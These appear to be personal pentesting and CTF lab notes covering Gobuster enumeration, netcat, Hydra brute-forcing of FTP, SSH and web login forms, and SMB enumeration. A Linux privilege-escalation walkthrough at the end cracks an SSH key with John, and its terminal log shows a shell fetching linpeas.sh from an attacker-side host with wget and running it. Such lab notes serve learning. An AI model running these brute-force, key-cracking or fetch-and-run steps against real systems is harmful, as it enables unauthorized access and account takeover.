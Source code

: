 ## Gobuster
(dirsearch) (usr share wordlists dirbuster directory list 2.3 medium txt)
used for **brute-forcing directories, files, DNS subdomains, and virtual hosts** on web servers.

**Directory and File Brute-Forcing (`dir` mode):**
- Scans for hidden directories and files on a web server by brute-forcing paths based on a wordlist.
- Useful for uncovering misconfigured or unprotected areas of a web application.
- `gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt -x php,html,txt`
- `-x`: Specify file extensions to test (e.g., `.php`, `.html`).
**DNS Subdomain Enumeration (`dns` mode):**
- Brute-forces subdomains of a domain to find potential entry points for attacks.
- `gobuster dns -d example.com -w /usr/share/wordlists/dns/subdomains.txt`
**Virtual Host Enumeration (`vhost` mode):**
- Identifies virtual hosts on a target server by brute-forcing hostnames.
- `gobuster vhost -u http://example.com -w /usr/share/wordlists/vhosts.txt`
**S3 Bucket Enumeration (`s3` mode):**
- Identifies publicly accessible AWS S3 buckets.
- `gobuster s3 -b example`
---------
- `ssh -l <urname> <website> -p <port>`
- `nc <website> <port>`
- `strings` command in Linux is used to extract printable (human-readable) strings from binary files. > `strings strings | grep "pico"`
- This little bit of JavaScript is what is removing the red popup from the page. We can utilise another feature of debugger called **breakpoints**. These are points in the code that we can force the browser to stop processing the JavaScript and pause the current execution. If you click the line number that contains the above code, you'll notice it turns blue; you've now inserted a breakpoint on this line. Now try refreshing the page, and you'll notice the red box stays on the page instead of disappearing, and it contains a flag. (from debugger in the web browser)
- also from debugger there's a button in the bottom called "{}" to beatify the js files
- u can edit the code in the js and css files
- `/.htaccess` > Apache. A common use for `.htaccess` is to restrict access to certain files or directories, or to redirect web traffic.
- `/.DS_Store` > macOS. The `.DS_Store` file is a hidden file created by macOS to store custom attributes of its containing folder, such as icon positions and view options
- `nc 10.10.250.121 31337` to establish a network connection

---
## Hydra
Hydra is a brute force online password cracking program, a quick system login password “hacking” tool.
According to its [official repository](https://github.com/vanhauser-thc/thc-hydra), Hydra supports, i.e., has the ability to brute force the following protocols: “Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.”
### Hydra Commands
The options we pass into Hydra depend on which service (protocol) we’re attacking. For example, if we wanted to brute force FTP with the username being `user` and a password list being `passlist.txt`, we’d use the following command:

`hydra -l user -P passlist.txt ftp://10.10.155.86`
`hydra -l <username> -P <full path to pass> 10.10.155.86 -t 4 ssh` > ssh
`-l` > specifies the (SSH) username for login
`-P` > indicates a list of passwords
`-t` > sets the number of threads to spawn

> `hydra -l <username> -P <wordlist> 10.10.155.86 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V`

----
try using SMB service to enumerate information like username
use tools like `enum4linux 10.10.3.181` or `smbclient -L //10.10.3.181 -U %`

---
example on privilege escalation on linux and switching to another user:
-  `scp linpeas.sh jan@10.10.104.79:/dev/shm`
- `./dev/shm/linpeas.sh`
- `ssh2john id_rsa > pass.hash`
- `john --wordlist=/usr/share/wordlists/rockyou.txt pass.hash`
- `ssh -i /home/kay/.ssh/id_rsa kay@10.10.104.79` > kay is the other user we want log in as
```
tomcat9@basic2:/tmp$ wget http://10.9.0.108/linpeas.sh
wget http://10.9.0.108/linpeas.sh
--2024-09-14 09:15:03--  http://10.9.0.108/linpeas.sh
Connecting to 10.9.0.108:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 853290 (833K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh          100%[===================>] 833.29K  1.90MB/s    in 0.4s    

2024-09-14 09:15:04 (1.90 MB/s) - 'linpeas.sh' saved [853290/853290]

tomcat9@basic2:/tmp$ chmod +x linpeas.sh
chmod +x linpeas.sh
tomcat9@basic2:/tmp$ ./linpeas.sh
./linpeas.sh
```

> on the Attackerbox linPEAS is located at /Tools/PEAS and you can locate it using
`locate linPEAS`
